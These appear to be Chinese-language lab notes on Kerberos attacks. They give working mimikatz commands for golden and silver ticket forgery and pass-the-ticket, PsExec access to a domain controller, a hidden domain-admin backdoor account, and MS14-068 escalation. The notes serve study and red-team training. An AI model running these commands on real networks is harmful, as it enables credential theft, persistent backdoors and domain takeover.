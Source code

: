 ## 1、Kerberos概述

一种计算机网络认证协议，采用C/S架构，应用对称密钥体制的系统

* KDC（Key Distribute Center）：密钥分发中心，负责存储用户信息，管理发放票据
* Principal：Kerberos中保存的一个账号，格式为：`primary/instance@realm`，例如`root/admin@EXAMPLE.COM`表示用户名/主机名@域名
* keytab：密钥文件
* 票据：KDC颁发的通行证，有黄金票据和白银票据

## 2、认证流程

```
1. 用户先进行身份认证，输入kinit命令和密码，AS认证服务器根据输入的账号和密码到数据库中查询验证，如果匹配，颁发票据TGT（Ticket Granting Ticket）
2. 用户拿到TGT后访问TGS票据授权服务器，然后TGS去数据库中查询服务是否合法，验证通过后，颁发ST（Service Ticket）票证给用户
3. 用户拿到ST票证后才能访问服务
```



![image-20240607164239356](images/image-20240607164239356.png)

## 3、Kerberos协议优缺点

优点：双向认证、高性能

缺点：对称加密采用相同密钥安全性不易保障、密钥管理复杂度随用户数快速增加`n*(n-1)/2个密钥`

## 4、黄金票据和白银票据

1、黄金票据（Golden Ticket）：伪造TGT，可以获取任意Kerberos的访问权限，同KDC交互，但不同AS交互

```
# 所需条件
1、域名称
2、域的SID值
3、域的KRBTGT账号的HASH（krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户）
4、伪造任意用户名
（获取域的SID和KRBTGT账号的NTLM HASH的前提是需要已经拿到了域的权限）
```

基本信息获取（SID、所处域）

```
whoami /user（获取SID值，去掉最后的-500，其表示为administrator）
net config workstation 查看所处域
```

![image-20240607173051102](images/image-20240607173051102.png)

获取krbtgt用户hash

```
运行mimikatz.exe
privilegeg::debug       #开启特权模式
lsadump::lsa /patch		#获取krbtgt用户hash,域的sid
lsadump::lsa /patch /user:krbtgt
```

![image-20240607173139141](images/image-20240607173139141.png)

![image-20240607173208490](images/image-20240607173208490.png)

制作黄金票据（使用mimkatz）

```
Kerberos::purge
klist purge		这两条命令可以清除机器中的票据，以防干扰

kerberos::golden /user:administrator /domain:cyber.com /sid:S-1-5-21-1923088019-4105411894-1236499359 /krbtgt:d40f0e3b1347e55dbfd6dc58e80a3b6e /ticket:ticket.kirbi

kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /ticket:XXX.kirbi(生成的票据名称)
```

票据传递

```
kerberos::ptt ticket.kirbi
dir \\dc.cyber.com\c$ 	#这里好像一定要完整的主机名才行
```

![image-20240607173628497](images/image-20240607173628497.png)

```
此时一个通往域内任意服务的后门制作完成
直接使用Windows官方PsExec工具提权
PsExec.exe \\dc.cyber.com -s cmd.exe
也可以在域内创建隐藏账户
net user qwer$ Aa123456 /add /domain
net group "domain admins" qwer$ /domain
```

![image-20240607174042493](images/image-20240607174042493.png)

2、白银票据（Sliver Ticket）：伪造ST，只能访问特定服务，不同KDC交互，直接访问Server

```
# 所需条件
1.域名
2.域sid
3.目标服务器名
4.可利用的服务
5.服务账号的NTML HASH 
6.需要伪造的用户名
```

基本信息获取（SID、所处域、服务器名、NTLM HASH）

```
whoami /user 
net config workstation

获取服务账号hash
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" > 'xxx.txt'
```

![image-20240607174609777](images/image-20240607174609777.png)

制作白银票据（使用mimikatz）

```
klist purge  清除票据

kerberos::golden /domain:cyber.com /sid:S-1-5-21-1923088019-4105411894-1236499359 /target:dc.cyber.com /service:cifs /rc4:45bdd23a3b9fc1c44a9fbb4081a70b30 /user:aaaa /ptt

kerberos::golden /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash /user:xxx用户名 /ptt
```

伪造共享文件夹服务（cifs）权限

![image-20240607174704974](images/image-20240607174704974.png)

攻击成功

![image-20240607174729062](images/image-20240607174729062.png)

可以伪造的服务

![image-20240607174851897](images/image-20240607174851897.png)

## 5、MS14-068漏洞

可将普通用户提权到域管理员权限

```
# 所需条件
获取域用户名，密码，sid
系统不存在补丁KB3011780
```

##### 查看补丁状况

```
systeminfo|find "KB3011780"
```

##### 获取用户名、密码、SID

```
用户名：hack1
密码：Aa123456  #我所创建的用户都是这个密码，实际可用通过mimikatz获取
SID：S-1-5-21-1923088019-4105411894-1236499359-1115
```

![image-20240607175328488](images/image-20240607175328488.png)

#### 攻击

```
`ms14-068.exe -u user@domain -p user_password -s sid -d domain_ip`

ms14-068.exe -u hack1@cyber.com -p Aa123456 -s S-1-5-21-1923088019-4105411894-1236499359-1115 -d 192.168.10.2
```

攻击前拒绝访问，使用MS14-068.exe生成了.ccache文件

![image-20240607180417942](images/image-20240607180417942.png)

使用mimikatz传递票据

```
kerberos::ptc xxx.ccache
```

![image-20240607180525171](images/image-20240607180525171.png)
